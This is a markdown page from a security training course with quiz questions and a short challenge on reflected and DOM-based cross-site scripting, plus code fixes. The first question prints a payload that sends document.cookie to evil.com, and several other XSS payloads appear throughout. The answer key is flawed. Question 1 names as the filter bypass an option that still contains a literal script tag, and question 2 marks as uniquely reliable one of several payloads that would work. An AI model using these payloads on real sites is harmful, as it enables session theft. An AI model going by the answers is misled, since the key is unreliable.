 ```yaml
---
[🏠 Home](../../../../README.md) / [🌐 Web Application Security](../) / [🔎 Cross-Site Scripting](./quiz.md)

[⬅️ Previous](../1.01-input-validation-injection/quiz.md) | [➡️ Next](../1.03-authentication-session/quiz.md)
---
```


# [Subtopic Title Here]

### 🧪 MCQ 1 – XSS Filter Bypass

**Question:**  
You're testing a travel booking web app. The "destination" search field reflects user input directly in the HTML with no escaping.  
Server response:
```html
<p>Searching for flights to: [USER_INPUT]</p>
```
You enter: `"><script>fetch('https://evil.com/'+document.cookie)</script>`  
But it gets blocked by a WAF with the message: "Blocked: script tag detected"

**Which of the following payloads is MOST likely to bypass the filter and still achieve XSS?**

A. `<img src=x onerror=alert(1)>`  
B. `<script type=text/javascript>alert(1)</script>`  
C. `<svg/onload=alert(1)>`  
D. `<scr<script>ipt>alert(1)</script>`

**Answer:** D  
**Explanation:** A polyglot tag bypasses basic string-matching WAFs while remaining functional in the browser. Option D splits the `script` tag in a way that bypasses blacklist filters but executes fully.

---

### 🧪 MCQ 2 – DOM-Based XSS Injection

**Question:**  
A React app has this code:  
```js
const params = new URLSearchParams(window.location.search);  
document.getElementById("welcome").innerHTML = params.get("name");
```

Which payload will most likely execute an alert if there's no CSP or framework sanitization?

A. `?name=<script>alert('XSS')</script>`  
B. `?name="><img src=x onerror=alert('XSS')>`  
C. `?name=<svg/onload=alert('XSS')>`  
D. `?name="><svg onload=alert('XSS')>`

**Answer:** D  
**Explanation:** Script tags do not execute when inserted via `.innerHTML`, but `svg` tags with event handlers like `onload` do. This makes option D the most reliable payload for this DOM-based context.

---

### 🧨 DOM XSS – Real-World Challenge 1

**Code Snippet:**
```js
const route = new URLSearchParams(location.search).get("view");
document.getElementById("container").innerHTML = `<div>${route}</div>`;
```

**Payload:** `?view="><svg onload=alert('XSS')>`

**Explanation:**  
- User input is reflected via `.innerHTML` without sanitization.  
- Payload breaks out of the `<div>`, injects an `<svg>` tag.  
- `onload` executes, triggering XSS.

**Fixes:**  
1. Replace `.innerHTML` with `.textContent`  
2. Use `DOMPurify.sanitize(route)` before insertion